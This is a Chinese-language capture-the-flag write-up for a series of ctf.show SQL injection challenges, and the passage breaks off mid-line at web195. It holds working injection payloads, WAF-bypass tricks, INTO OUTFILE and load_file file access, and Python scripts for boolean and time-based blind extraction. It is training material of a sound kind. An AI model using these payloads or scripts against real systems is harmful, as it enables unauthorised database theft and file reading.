

# 一、无过滤注入

## web171~union联合注入

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

直接开始

```
1'--+
```

成功会先 id为1的用户密码。

```
1' order by 3--+
```

1,2,3处都有回显

```
-1' union select 1,2,3--+ 
```

爆出库名 ctfshow_web

```
-1' union select 1,2,database()--+
```

爆出表名 ctfshow_user

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'--+ 
```

爆出列名  id,username,password

```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' and table_schema=database()--+
```

爆出字段内容 

```
1adminadmin~,2user1111~,3user2222~,4userAUTOpasswordAUTO~,5userAUTOpasswordAUTO~,6userAUTOpasswordAUTO~,7userAUTOpasswordAUTO~,8userAUTOpasswordAUTO~,9userAUTOpasswordAUTO~,10userAUTOpasswordAUTO~,11userAUTOpasswordAUTO~,12userAUTOpasswordAUTO~,13userAUTOpasswordAUTO~,14userAUTOpasswordAUTO~,15userAUTOpasswordAUTO~,16userAUTOpasswordAUTO~,17userAUTOpasswordAUTO~,18userAUTOpasswordAUTO~,19userAUTOpasswordAUTO~,20userAUTOpasswordAUTO~,21userAUTOpasswordAUTO~,22userAUTOpasswordAUTO~,23userAUTOpasswordAUTO~,24userAUTOpasswordAUTO~,26flagflag{90be1d62-6fab-41d6-aa43-c7d5a1c90ab7}~
```

```
-1' union select 1,2,group_concat(id,username,password,0x7e) from ctfshow_user--+
```

还可以直接抓包找到 api,直接爆出

```
http://96977979-97ee-410a-8c0f-bd0b2883bd95.chall.ctf.show/api/?id=1'or1--+&page=1&limit=10
```

## web172

流程就不来了，

直接

```
-1' union select 1,group_concat(username,password) from ctfshow_user2--+
```

## web173~hex编码

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,password from ctfshow_user3 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/flag/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```

过滤了返回字符串不能含有 flag,

那我们就将他十六进制编码即可。

```
-1' union select 1,2,hex(group_concat(username,password)) from ctfshow_user3--+
```

## web174~py脚本布尔盲注

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```


无回显，只好盲注了，

```
1' and ascii(substr((select password from ctfshow_user4 where username ='flag'),1,1))=2--+
```

验证了成功可以盲注，第一位ascii是102,也就是`f` 



写个脚本。

```python
# @Author:yanmie

import requests

url = "http://d273060e-9119-43c3-9737-acf668088663.chall.ctf.show/api/v4.php?id=1' and "

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i=0
j=1
result = ""

while True:
    i = i + 1
    payload = "ascii(substr((select password from ctfshow_user4 where username ='flag'),{j},1)) = {i}--+"
    #print(i,j)
    payload = payload.format(j=j,i=i)
    # print(payload)
    response = requests.get(url = url+payload,headers = headers)
    if "admin" in response.text:
        result += chr(i)
        print(result)
        i = 0
        j = j+1

    if i == 128:
        break

print(result)
```

好家伙，自增脚本结果也是废了一小段时间才跑出来。

那就再写一个二分法脚本：

```python
# @Author:yanmie

import requests

url = "http://d273060e-9119-43c3-9737-acf668088663.chall.ctf.show/api/v4.php?id=1' and "

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i = 0
result = ""

while True:
    head = 0
    tail = 127
    i += 1

    while head<tail:
        mid = (head+tail)//2   # 除以2取整
        payload = "ascii(substr((select password from ctfshow_user4 where username ='flag'),{i},1))>{mid}--+"
        payload  = payload.format(i=i,mid=mid)
        # print(url+payload)
        response = requests.get(url=url+payload,headers=headers)
        # print(response.text)
        if "admin" in response.text:
            head = mid+1
        else:
            tail = mid

    if head == 32:
        break
    result += chr(head)
    print(result)

print(result)
```

结果快多了。

## web175~py脚本时间盲注,写文件

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```

`[\x00-\x7f]/i` 匹配了基本 ascii 码值。也就是说基本页面不会回显数据库里的数据。

只会回显

```
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":1,"data":[]}
```


尝试间件盲注`1' and sleep(5)--+` 成功。

* if 函数 `if(a,b,c)` , if判断，如果为真，返回b，否则返回c

继续写脚本

```python
# @Author: yanmie

import requests
import time

url = "http://e1c45db2-f1de-4e77-8ae9-f7739465a81d.chall.ctf.show/api/v5.php?id=1' and "
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i = 0

result = ""
while True:
    i += 1
    for j in range(0,127):
        j += 1
        payload = "if((ascii(substr((select password from ctfshow_user5 where username='flag'),{i},1)))={j},sleep(5),0)--+".format(i=i,j=j)
        start_time = time.time()
        response = requests.get(url=url+payload,headers=headers)
        end_time = time.time()
        print(i,j)
        if end_time-start_time>5:
            result += chr(j)
            break

    print(result)
    if '}' in result:
        break
```

可是这个脚本耗费时间太长了，42*5  秒 多。

另一种解法：

把 flag 内容写入 文件

```
1' union select username,password from ctfshow_user5 where username='flag' into outfile '/var/www/html/1.txt'--+
```

# 二、过滤注入

## web176~大小写绕过

> ·查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>    //代码过于简单，不宜展示
>   }
>       
> ```

万能密码：

```
1' or 1--+
```

在表中 flag 直接回显

还可以大小写绕过：

```
-1' UnION sELect 1,2,3--+

-1' UnION sELect id,username,password from ctfshow_user where username='flag'--+
```

## web177~/**/绕过空格

反复测试，过滤了空格。

`1'--+` 这个不可以 ，`1'%23` 可以。

过滤空格可以使用`/**/` 绕过

```
1'/**/or/**/1%23

1'/**/union/**/select/**/id,username,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23

1'/**/union/**/select/**/id,username,password/**/from`ctfshow_user`where`username`='flag'%23
```

表名，列名可以用反引号。

## web178~%09绕过空格

过滤了空格和 `*`

可以用`tab` 代替空格，也就是`%09`

```
1'%09union%09select%09id,username,password%09from%09ctfshow_user%09where%09username='flag'%23
```

一把梭

```
1'or'1'%23
```

## web179~%0c绕过空格

经测试，过滤了空格、`%09`、`/**/` 

可以用 `%0c` 绕过。

```
1'%0cunion%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23
```

还可以一把梭

```
1'or'1'%23
```

## web180-182~直接查id

把所有能用的空格都过滤了。

换其他姿势，直接查 id

```
-1'or(id=26)and'1
```

## web183~where正则匹配

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(pass) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```

需要我们post传入参数 `tableName`

当传入`tableName=ctfshow_user` 时，有变化

```
$user_count = 22;
```

说明有 22 行数据。

这里吧等于号过滤了，所以利用正则。

不能有空格，不能有 * 

```
tableName=`ctfshow_user`where(substr(`pass`,1,1)regexp('f'))
```

成功利用 where 条件匹配到 f

写个脚本

```python
# @Author: yanmie

import requests

url = "http://cd6b047c-93a9-41e2-b3e2-ab58d7328aea.chall.ctf.show/select-waf.php"
payload = "`ctfshow_user`where(substr(`pass`,{},1)regexp('{}'))"
str = "flag{abcdefghijklmnopqrstuvwxyz0123456789-}"
i = 0
flag = ""
while True:
    i += 1
    for j in str:
        data = {
            "tableName":payload.format(i,j)
        }
        response = requests.post(url=url,data=data)

        if "user_count = 1;" in response.text:
            # print(response.text)
            # print(j)
            flag += j
            break
    print(flag)
    if '}' in flag:
        break
```

## web184~right join...on注入过字母

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```
>
> ------

过滤了 `where` 、双引号、单引号

* 使用 [right join](https://www.runoob.com/sql/sql-join-right.html)

  RIGHT JOIN 关键字从右表（table2）返回所有的行，即使左表（table1）中没有匹配。如果左表中没有匹配，则结果为 NULL。

* on 条件是在生成临时表时使用的条件，它不管 ON 中的条件是否为真，都会返回左边表中的记录；

传参 

```
tableName=ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,1,1)regexp(chr(102)))
```

得到

```
 $user_count = 43;
```

说明可以进行这样的注入。

写个脚本：

```python
import requests

url = "http://57dc48dc-6d61-491f-8ca1-6c199e3256be.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},1)regexp(char({})))"
i = 5
flag ="flag{"

while True:
    i += 1
    for j in range(127):
        data = {
            "tableName":payload.format(i,j)
        }
        response = requests.post(url=url,data = data)
        if "user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
```

## web185~true绕过数字

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```

多过滤了数字。

sql语句中 true 即为 1 ，`true+true=2` ，写个脚本

```python
# @Author: yanmie

import requests

url = "http://dfd3af46-a52f-48ad-a9de-077c48c0597a.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},{})regexp(char({})))"
i =5
flag = "flag{"

def createNum(n):
    num = 'true'
    if num == 1:
        return 'true'
    else:
        for i in range(n-1):
            num += '+true'
        return num;

while True:
    i += 1
    for j in range(127):
        data ={
            "tableName":payload.format(createNum(i),createNum(1),createNum(j))
        }
        response = requests.post(url=url,data=data)
        # print(i,j,data)
        # print(response.text)
        # if response.text.find("$user_count = 43;") > 0:
        if "$user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
    if chr(j) == '}':
        break
```

## web186

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ".$_POST['tableName'].";";
>       
> ```
>
> 返回逻辑
>
> ```
> //对传入的参数进行了过滤
>   function waf($str){
>     return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
>   }
> 
>       
> ```
>
> 查询结果
>
> ```
> //返回用户表的记录总数
>       $user_count = 0;
>       
> ```

直接拿上题的脚本就可以

```python
# @Author: yanmie

import requests

url = "http://f9cb7903-66ce-445d-874a-b54de32dd8da.chall.ctf.show/select-waf.php"
payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},{})regexp(char({})))"
i =5
flag = "flag{"

def createNum(n):
    num = 'true'
    if num == 1:
        return 'true'
    else:
        for i in range(n-1):
            num += '+true'
        return num;

while True:
    i += 1
    for j in range(127):
        data ={
            "tableName":payload.format(createNum(i),createNum(1),createNum(j))
        }
        response = requests.post(url=url,data=data)
        if "$user_count = 43;" in response.text:
            if chr(j) != ".":
                flag += chr(j)
                break;

    print(flag.lower())
    if chr(j) == '}':
        break
```

## web187~md5 sql注入

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
>   $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
>       
> ```
>
> 返回逻辑
>
> ```
>     $username = $_POST['username'];
>     $password = md5($_POST['password'],true);
> 
>     //只有admin可以获得flag
>     if($username!='admin'){
>         $ret['msg']='用户名不存在';
>         die(json_encode($ret));
>     }
>       
> ```

* md5()函数有两个参数，一个是要加密的字符串，另一个是输出格式，

  >  可选。规定十六进制或二进制输出格式：
  >
  >     TRUE - 原始 16 字符二进制格式
  >     FALSE - 默认。32 字符十六进制数

但是组成查询语句的时候这个hex会被转成字符串，如果转换之后的字符串包含'or'<xxx>，就会和原查询语句一起组成.

也就是说将密码转换成16进制的hex值以后，再将其转换成字符串后包含’ ‘or ’ xxx 。

 提供一个字符串：**ffifdyop**

 md5后，276f722736c95d99e921722cf9ed621c

 再转成字符串： `'or'6<其他字符>`

[](https://imgchr.com/i/sTN6iV)

## web188~where逻辑条件

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = {$username}";
>       
> ```
>
> 返回逻辑
>
> ```
>   //用户名检测
>   if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
>     $ret['msg']='用户名非法';
>     die(json_encode($ret));
>   }
> 
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==intval($password)){
>       $ret['msg']='登陆成功';
>       array_push($ret['data'], array('flag'=>$flag));
>     }
>       
> ```

这里限制密码只能为数字，但是这里是弱比较， `0==admin`

用户名处也正则限制了很多，但还是有很多姿势。

```0
select * from users where first_name=0; 
select * from users where first_name=1<1; 
select * from users where first_name=1=0; 
```

可以查询出所有数据，为什么呢？逻辑结构，首先`first_name=1` 为假也就是0 ，然后`0<1` 就为真，所以可以查。

这样也可以，反引号列名

```
select * from users where first_name=`first_name`; 
```

所以此题payload

```
0/0
1<1/0
0=0/0
```

## web189~locate定位函数

提示：

```
flag在api/index.php文件中
```

访问`http://54e509b4-af7d-4ba0-95cd-c84c9a7d0886.chall.ctf.show/api/index.php`

有两种状态,查询失败和密码错误。

利用这两种状态来读取文件判断flag具体在哪个位置。

* MySQL定位函数

  > - `INSTR(str,substr)` –> 返回字符串 str 中子字符串的第一个出现位置，否则为0
  > - `FIND_IN_SET(str,strlist)` –> 返回字符串 str 中子字符串的第一个出现位置，否则为0
  > - `LOCATE(substr,str,pos)` –> 返回字符串 str中子字符串substr的第一个出现位置, 起始位置在pos。如若substr 不在str中，则返回值为0
  > - `POSITION(substr IN str)` –> 返回子串 substr 在字符串 str 中第一次出现的位置。如果子串 substr 在 str 中不存在，返回值为 0

构造payload:

```
username=username=if(locate("flag{",load_file('/var/www/html/api/index.php'))>0,0,1)&password=1
```

页面返回

```
{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}
```

说明文件中确实存在flag.

写个脚本：

思路：先得到 `flag` 所在位置，然后从此位置开始使用二分法得到每位字符拼接成flag。

```python
# @Author: yanmie

import requests

url = "http://54e509b4-af7d-4ba0-95cd-c84c9a7d0886.chall.ctf.show/api/index.php"


def getFlagPos():
    payload = "if(locate('flag{',load_file('/var/www/html/api/index.php'))>%d,0,1)"
    head = 0
    tail = 1000
    while head<tail:
        mid = (head+tail)//2
        data = {
            "username":payload%mid,
            "password":1,
        }
        response = requests.post(url=url,data=data)
        if "密码错误" == response.json()['msg']:
            head = mid+1
        else:
            tail = mid
    return mid

def getFlag(num):
    payload = "if(ascii(substr((load_file('/var/www/html/api/index.php')),{},1))>{},0,1)"
    flag =""
    while True:
        head = 0
        tail = 127
        num += 1
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(num,mid),
                "password" : 1,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" == response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        flag += chr(head)
        print(flag)
        if "}" in flag:
            break
    return flag


if "__main__" == __name__:
    pos = getFlagPos()
    # 得到 flag{ 在文件中的位置
    print(pos)
    flag = getFlag(pos)
    print("[+] the flag is : ",flag)
```

# 三、布尔盲注

## web190~py脚本布尔盲注

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>       
> ```

如果瞎输入用户名，会提示用户名不存在，

但是如果输入`1'or'1'='1` 就会提示密码错误存在布尔注入.

找到api开始

```
http://8846c979-3fe0-41fd-aef7-6042f6f9bc21.chall.ctf.show/api/
```

写个脚本

```python
# Author: yanmie

import requests

url = "http://8846c979-3fe0-41fd-aef7-6042f6f9bc21.chall.ctf.show/api/"


# 查询当前数据库
def getDatabase():
    payload = "0'or(ascii(substr(database(),{},1))>{})='1"
    i = 0
    database = ""

    while True:
        i +=1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return database
        database += chr(head)

# 查询所有表名
def getTable():
    payload = "0'or(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{})='1"
    i = 0
    table_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return table_name
        table_name += chr(head)

# 查询 ctfshow_fl0g 表中的所有列名
def getColumn():
    payload = "0'or(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))>{})='1"
    i = 0
    column_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return column_name
        column_name += chr(head)

# 查询字段中内容
def get_dump():
    payload = "0'or(ascii(substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))>{})='1"
    i = 0
    dump = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return dump
        dump += chr(head)

if "__main__" == __name__:
    database = getDatabase()
    print("[+]the database is: ",database)     # 得到 ctfshow_web
    table_name = getTable()
    print("[+]the table_names are: ",table_name)   # 得到  ctfshow_fl0g,ctfshow_user
    column_name = getColumn()
    print("[+]the column_name are: ", column_name)   # 得到 id,f1ag
    dump = get_dump()
    print("[+]the flag is :",dump)
```

## web191~ord代替ascii

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>     if(preg_match('/file|into|ascii/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```

过滤了`ascii` ，所以不能使用上题的方式了。

可以使用 `ord` 代替 `ascii` 。

* ord(str)   	如果字符串str的最左边的字符是一个多字节字符返回该字符，用这个公式其组成字节的数值计算的代码,如果最左边的字符不是一个多字节字符，ORD()返回相同的值如ASCII()函数。

  如 `select ord('a');`  则返回 a 的 ascii 码值。

那么只需更改一下上官的脚本就可以直接拿到flag了。

```python
# Author: yanmie

import requests

url = "http://5f86e6f7-cc18-49ae-8d60-b7184fde02d2.chall.ctf.show/api/"


# 查询当前数据库
def getDatabase():
    payload = "0'or(ord(substr(database(),{},1))>{})='1"
    i = 0
    database = ""

    while True:
        i +=1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return database
        database += chr(head)

# 查询所有表名
def getTable():
    payload = "0'or(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{})='1"
    i = 0
    table_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head<tail:
            mid = (head+tail)//2
            data = {
                "username" : payload.format(i,mid),
                "password" : 0,
            }
            response = requests.post(url=url,data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return table_name
        table_name += chr(head)

# 查询 ctfshow_fl0g 表中的所有列名
def getColumn():
    payload = "0'or(ord(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))>{})='1"
    i = 0
    column_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return column_name
        column_name += chr(head)

# 查询字段中内容
def get_dump():
    payload = "0'or(ord(substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))>{})='1"
    i = 0
    dump = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return dump
        dump += chr(head)

if "__main__" == __name__:
    database = getDatabase()
    print("[+]the database is: ",database)     # 得到 ctfshow_web
    table_name = getTable()
    print("[+]the table_names are: ",table_name)   # 得到  ctfshow_fl0g,ctfshow_user
    column_name = getColumn()
    print("[+]the column_name are: ", column_name)   # 得到 id,f1ag
    dump = get_dump()
    print("[+]the flag is :",dump)
```

## web192~regexp正则布尔盲注

> 查询语句
>
> ```
>   //拼接sql语句查找指定ID用户
>   $sql = "select pass from ctfshow_user where username = '{$username}'";
>       
> ```
>
> 返回逻辑
>
> ```
>   //密码检测
>   if(!is_numeric($password)){
>     $ret['msg']='密码只能为数字';
>     die(json_encode($ret));
>   }
> 
>   //密码判断
>   if($row['pass']==$password){
>       $ret['msg']='登陆成功';
>     }
> 
>   //TODO:感觉少了个啥，奇怪
>     if(preg_match('/file|into|ascii|ord|hex/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> 
>       
> ```

又增加过滤了`ord`、`hex` ，根据过滤内容，上关还可以用`hex` 。

我们可以使用正则匹配 `regexp`

```python
# Author: yanmie

import requests

url = "http://59005239-92ca-42fd-ac7a-4d41b67b2e55.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}"

# 查询字段中内容
def get_dump():
    payload = "0'or((substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))regexp('{}'))='1"
    i = 0
    dump = ""
    while True:
        i += 1
        for j in flag:
            data = {
                "username": payload.format(i, j),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # +print(i,j,data)
            if "密码错误" in response.json()['msg']:
                dump += j
                print(dump)
                if "}" in dump:
                    return dump
                break

if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)
```

## web193~mid截断字符串

> ```
> if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```

又把`substr` 过滤了

但是我们可以使用 `mid` 代替。

* [MID 函数用于从文本字段中提取字符](https://www.w3school.com.cn/sql/sql_func_mid.asp)

写个脚本

(哈哈哈，表名和前面的不一样了，大半天没跑出来。。)

```python
# Author: yanmie

import requests

url = "http://83decdb8-6686-4d24-9a8f-1a51156a0e21.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}_"

# 查询字段中内容
def get_dump():
    # payload = "0'or((mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))regexp('{}'))='1"
    # 得到 ctfshow_flxg
    # payload = "0'or((mid((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{},1))regexp('{}'))='1"
    # 得到 id  f1ag
    payload = "0'or((mid((select group_concat(f1ag) from ctfshow_flxg),{},1))regexp('{}'))='1"
    i = 0
    dump = ""
    while True:
        i += 1
        for j in flag:
            data = {
                "username": payload.format(i, j),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # print(i,j,data)
            if "密码错误" in response.json()['msg']:
                dump += j
                print(dump)
                if "}" in dump:
                    return dump
                break

if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)

```

## web194~locate布尔盲注

> ```
> if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
>         $ret['msg']='用户名非法';
>         die(json_encode($ret));
>     }
> ```

直接上题的脚本就可以跑出来。

其他方法，利用 mysql定位函数`locate`

```python
# Author: yanmie

import requests

url = "http://ad1cf08f-6278-4479-9deb-48c4ce9449a9.chall.ctf.show/api/"
flag = "{abcdefghijklmnopqrstuvwxyz0123456789-}_,"

# 查询字段中内容
def get_dump():
    # payload = "0'or(if((locate('{}',(select group_concat(table_name) from information_schema.tables where table_schema=database())))=1,1,0))='1"
    # 得到 ctfshow_flxg,ctfshow_user
    # payload = "0'or(if((locate('{}',(select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg')))=1,1,0))='1"
    # 得到 id,f1ag
    payload = "0'or(if((locate('{}',(select f1ag from ctfshow_flxg limit 0,1)))=1,1,0))='1"
    dump = ""
    while True:
        for j in flag:
            dump += j
            data = {
                "username": payload.format(dump),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            # print(j,data)
            if "密码错误" in response.json()['msg']:
                # dump += j
                print(dump)
                if "}" in dump:
                    return dump
                break
            else:
                dump = dump[:-1]


if "__main__" == __name__:
    dump = get_dump()
    print("[+]the flag is :",dump)
```

# 四、堆叠注入

## web195~堆叠注入

> ```
>   if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
